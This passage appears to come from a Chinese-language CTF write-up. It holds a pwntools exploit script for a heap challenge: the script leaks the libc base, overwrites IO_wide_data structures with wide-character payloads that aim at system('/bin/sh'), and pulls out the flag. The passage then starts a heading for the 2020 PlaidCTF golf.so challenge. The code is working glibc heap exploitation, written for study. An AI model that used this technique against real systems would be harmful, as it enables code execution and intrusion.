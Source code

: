 ```
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        create(sh,0x110,'Chunk__0'+'n')
        create(sh,0x10,'Chunk__1'+'n')
        delete(sh,0)
        libc.address = u64(wchar2char(show(sh,0)).ljust(8,'x00')) - get_main_arena(libc) - 0x60
        if libc.address % 0x1000 != 0:
            error('The libc base address is wrong!')
        success('The libc base address is ' + hex(libc.address))
        create(sh,0x10,'Chunk__0'+'n')
        create(sh,0x10,'Chunk__2'+'n')
        create(sh,0x10,'Chunk__3'+'n')
        create(sh,0x10,'Chunk__4'+'n')

        IO_wide_data = libc.address + 0x3eb9e8
        info("IO_wide_data = " + hex(IO_wide_data))

        payload = ''
        for i in range(16):
            payload += char2wchar(p32(IO_wide_data % 0x100000000))
            payload += char2wchar(p32(IO_wide_data &gt;&gt; 32))

        payload += char2wchar(b'/bin') + char2wchar(b'/sh')
        payload += char2wchar(p32(libc.symbols['system'] % 0x100000000))
        payload += char2wchar(p32(libc.symbols['system'] &gt;&gt; 32))
        sh.sendlineafter(b"xe2x9dx93", payload)
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag{.+}',flag).group())
```



## 0x03 [2020 PlaidCTF] golf.so – 500pt

> 题目类型：Misc

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E7%9B%AE%E7%9A%84"></a>题目目的
